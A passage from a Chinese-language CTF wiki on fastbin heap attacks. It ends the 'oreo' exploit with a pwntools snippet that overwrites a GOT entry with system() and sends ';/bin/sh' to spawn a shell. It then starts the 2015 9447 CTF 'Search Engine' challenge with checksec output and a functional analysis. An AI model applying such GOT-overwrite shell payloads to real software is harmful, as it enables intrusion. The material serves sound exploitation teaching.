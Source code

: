 ```python
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()

```

當然，該題目也可以使用 `fast bin attack` 中的其它技術來實現，可參考參考文獻中的鏈接。

## 2015 9447 CTF : Search Engine
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2015_9447ctf_search-engine)

### 基本信息

```shell
➜  2015_9447ctf_search-engine git:(master) file search
search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
➜  2015_9447ctf_search-engine git:(master) checksec search
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled

```

### 基本功能

程序的基本功能是

- 索引一個句子
  - 大小v0，(unsigned int)(v0 - 1) > 0xFFFD
  - 讀取的字符串長度必須和給定的大小相等
  - 每次索引的句子都是直接在直接建立在前面的句子上的。
- 在一個句子中搜索單詞
  - 大小v0，(unsigned int)(v0 - 1) > 0xFFFD
- 讀取指定長度字符串
  - 如果有回車標記
    - 在指定長度內沒有遇到回車，則讀完沒有設置NULL標記
    - 在指定長度內遇到回車，就截斷返回。
  - 沒有回車標記
    - 讀夠指定長度，沒有NULL標記結尾。
